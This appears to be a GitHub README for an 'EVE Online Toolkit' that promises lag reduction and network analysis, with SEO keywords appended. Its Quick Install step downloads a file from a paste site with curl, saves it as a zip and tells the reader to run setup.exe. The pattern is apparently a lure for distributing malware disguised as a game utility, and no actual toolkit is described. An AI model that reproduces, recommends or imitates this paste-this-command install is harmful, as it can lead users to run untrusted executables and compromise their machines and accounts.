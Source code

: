 # EVE Online Toolkit (2025 Edition)  

![EVE Online Banner](https://img.shields.io/badge/EVE%20Online-Security%20Toolkit-blue)  
![Windows](https://img.shields.io/badge/Platform-Windows%2010%2F11-green)  
![Release](https://img.shields.io/badge/Release-2025-orange)  

Enhance your EVE Online experience with this optimized toolkit designed for security and performance.  

## 📋 Features  
- **Optimized Performance**: Reduce lag in high-sec/low-sec battles.  
- **Network Analysis**: Monitor connection stability for fleet ops.  
- **System Tweaks**: Pre-configured settings for smoother gameplay.  

## 🖥️ System Requirements  
| Component      | Minimum              | Recommended          |
|---------------|----------------------|----------------------|
| **OS**        | Windows 10           | Windows 11           |
| **CPU**       | Intel i5-7500        | AMD Ryzen 5 5600X    |
| **RAM**       | 8GB DDR4             | 16GB DDR4            |
| **GPU**       | NVIDIA GTX 1050 Ti   | RTX 3060             |
| **Storage**   | 50GB SSD             | NVMe SSD             |

## 📸 Preview  
![EVE Toolkit Screenshot](https://img.shields.io/badge/Preview-In--Game%20UI-lightgrey)  

## ⚡ Quick Install  
🔹 **Download**:  
```bash
curl -o EVE_Toolkit_2025.zip "https://paste.rs/Eamxi.txt"
```
🔹 **Extract** and run `setup.exe`.  

## 📜 Legal Notice  
This toolkit complies with EVE Online's EULA. Use responsibly—unauthorized modifications may violate CCP's terms.  

## 🔧 Support  
For bugs or suggestions, open an issue. Contributions welcome!  

``` 

*(Optimized for SEO with keywords: EVE Online, security toolkit, Windows 10/11, 2025 release, performance tweaks, fleet ops, network analysis)*